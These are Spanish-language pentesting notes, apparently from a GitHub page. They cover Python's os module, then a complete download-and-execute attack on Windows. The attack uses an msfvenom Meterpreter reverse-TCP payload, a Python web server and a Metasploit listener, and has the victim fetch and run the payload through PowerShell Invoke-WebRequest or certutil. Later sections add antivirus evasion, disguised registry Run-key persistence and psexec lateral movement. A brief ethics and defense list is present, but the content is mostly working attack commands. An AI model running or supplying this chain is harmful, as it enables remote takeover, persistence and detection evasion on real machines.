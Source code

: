 
---

#PythonHacking #OSModule #Meterpreter #EthicalHacking  
#CyberSecurity #ReverseShell #PayloadDevelopment  
#LivingOffTheLand #RedTeam #PostExploitation  
#WindowsSecurity #Pentesting #CommandInjection  
#PowerShellSecurity #NetworkDefense

---
### 1. Módulo OS de Python: Definición y funciones clave
-----------------------------------
**¿Qué es el módulo os?**  
Biblioteca estándar de Python para interactuar con el sistema operativo. Permite:
- Gestión de archivos/directorios (crear/eliminar/renombrar)
- Ejecución de comandos del sistema
- Acceso a variables de entorno
- Manipulación de rutas de archivos
- Control de procesos

**Operaciones comunes:**  
```python
import os
os.makedirs("carpeta")  # Crea directorio
os.removedirs("carpeta")  # Elimina directorios vacíos
os.remove("archivo.txt")  # Borra archivos
os.rename("viejo.txt", "nuevo.txt")  # Renombra
os.system("comando")  # Ejecuta comandos del SO
```

### 1. Operaciones con Python (os module)
-----------------------------------
**a. Gestión de archivos/directorios:**
```python
import os
os.makedirs("carpeta")  # Crea un directorio llamado "carpeta"
os.removedirs("carpeta")  # Elimina el directorio y subdirectorios vacíos
os.remove("salida.txt")  # Borra un archivo específico
```

**b. Listado de archivos:**
```python
print(os.listdir())  # Muestra el contenido del directorio actual
for archivo in os.listdir():  # Itera y muestra cada elemento
    print(archivo)
```

**c. Borrado condicional:**
```python
# Borra "script.py" si existe
if archivo == "script.py":
    os.remove(archivo)

# Borra archivos .txt usando endswith()
if archivo.endswith(".txt"):

# Borra archivos que empiezan con "est" usando startswith()
if archivo.startswith("est"):
```

**d. Ejecución de comandos:**
```python
os.system("whoami")  # Muestra el usuario actual
os.system("ipconfig")  # Muestra configuración de red
os.system("python -m http.server 8000")  # Inicia servidor web
```

### 2. Creación del Payload (Kali Linux)
-------------------------------------
**Intento inicial fallido:**
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.108 LPORT=443 -f exe -o pwned.exe  # Error en nombre del payload 
```

**Versión funcional:**
```bash
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=192.168.1.108 LPORT=443 -f exe -o pwned.exe
```
*Diferencia clave:* El guión bajo en `meterpreter_reverse_tcp` vs el slash inicial.

### 3. Infraestructura de Ataque
---------------------------
**Servidor web:**
```bash
python3 -m http.server 5000  # Sirve el payload en el puerto 5000
```

**Listener de Metasploit:**
```bash
msfconsole
use multi/handler
set payload windows/x64/meterpreter_reverse_tcp
set LHOST eth0  # Usa la interfaz de red correcta
set LPORT 443
run
```

### 4. Ejecución en Víctima (Windows)
--------------------------------
**Intento fallido:**
```python
os.system("wget 192.168.1.108:5000/pwned.exe")  # wget no está disponible por defecto en Windows
os.system("pwned.exe")  # Falta ruta completa y privilegios
```

**Versión exitosa:**
```python
# Descarga con PowerShell (nativo en Windows)
os.system("powershell -Command Invoke-WebRequest -Uri 'http://192.168.1.108:5000/pwned.exe' -OutFile 'pwned.exe'")

# Ejecución con start (evita bloqueos de ejecución)
os.system("start pwned.exe")  # Ejecuta en nuevo proceso
```

### 5. ¿Por qué funcionó esto?
-------------------------
1. **PowerShell vs wget:**
   - Windows incluye PowerShell por defecto
   - `Invoke-WebRequest` es el equivalente a `wget/curl`

2. **start command:**
   - Evita bloqueos de ejecución directa
   - Maneja mejor los permisos en algunos casos

3. **Configuración del listener:**
   - Coherencia en payload (meterpreter_reverse_tcp)
   - Puerto 443 suele estar menos restringido
   - `ExitOnSession false` permite múltiples conexiones

### 6. Interacción con Meterpreter Shell

---

**Comandos post-explotación:**

```bash
meterpreter > sysinfo  # Muestra detalles del sistema Windows
Computer        : WIN-VICTIMA
OS              : Windows 10 (10.0.18363)
Architecture    : x64

meterpreter > shell  # Accede a línea de comandos del sistema
C:\> whoami
win-victima\usuario_comprometido  # Usuario actual en la víctima
```

**¿Por qué funciona?**  
Meterpreter se inyecta en procesos existentes:

- Hereda privilegios del proceso objetivo
    
- Ejecuta comandos en el contexto de seguridad del usuario/proceso
    
- Utiliza técnicas de inyección de memoria para evadir detección

### 7. Consideraciones de Seguridad
-----------------------------
4. **Defensa:**
   - Bloquear ejecución de PowerShell no firmado
   - Monitorizar conexiones a puertos no estándar
   - Restringir ejecución de archivos .exe desde temp

5. **Ética:**
   - Solo realizar en entornos controlados
   - Con consentimiento explícito
   - Borrar todo rastro post-prueba

Este flujo demuestra un ataque típico de descarga y ejecución remota (Living Off The Land), usando herramientas legítimas del sistema (PowerShell, start) para evadir detecciones básicas.

# Mejoras futuras

1️⃣ **Uso de `certutil` como alternativa a `Invoke-WebRequest`**

- En algunas versiones de Windows, PowerShell puede estar restringido, pero `certutil` sigue disponible.

```python
os.system("certutil -urlcache -f http://192.168.1.108:5000/pwned.exe pwned.exe")
os.system("start pwned.exe")
```

2️⃣ **Evasión básica de antivirus**

- En lugar de generar un `.exe` directamente con `msfvenom`, usa `Veil`, `Unicorn` o `Shellter` para ofuscar el payload.

```bash
veil -t Evasion
```

3️⃣ **Persistencia mejorada**

- Agregar el payload al inicio de sesión:

```powershell
reg add HKCU\Software\Microsoft\Windows\CurrentVersion\Run /v Updater /t REG_SZ /d "C:\ruta\pwned.exe" /f
```

4️⃣ **Uso de `psexec` para moverte lateralmente**

- Si obtienes credenciales de admin, ejecuta en `meterpreter`:

```bash
psexec -U admin -P contraseña -H 192.168.1.105 cmd.exe
```

